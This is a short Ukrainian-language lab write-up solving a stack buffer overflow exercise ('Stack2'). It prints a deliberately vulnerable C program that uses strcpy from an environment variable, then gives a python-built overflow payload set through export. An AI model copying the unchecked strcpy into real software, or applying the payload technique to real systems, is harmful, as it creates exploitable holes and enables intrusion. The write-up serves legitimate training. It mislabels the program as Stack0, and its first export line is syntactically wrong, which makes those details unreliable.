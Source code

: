 # STACK2

Отже, ось код для Stack0:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Нам потрібно буде встановити змінну середовища GREENIE. Нам потрібно використовувати команду export.
```
export GREENIE = someValue
```
Нам знову знадобиться 64 байти сміття (64 'а'), а потім шістнадцяткові значення в Little Endiano
```
$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
```
Тож давайте об’єднаємо їх разом.
```
export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'");
./stack2
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147479078-7544020a-10ae-4802-91dd-4bec8c67ecae.png)





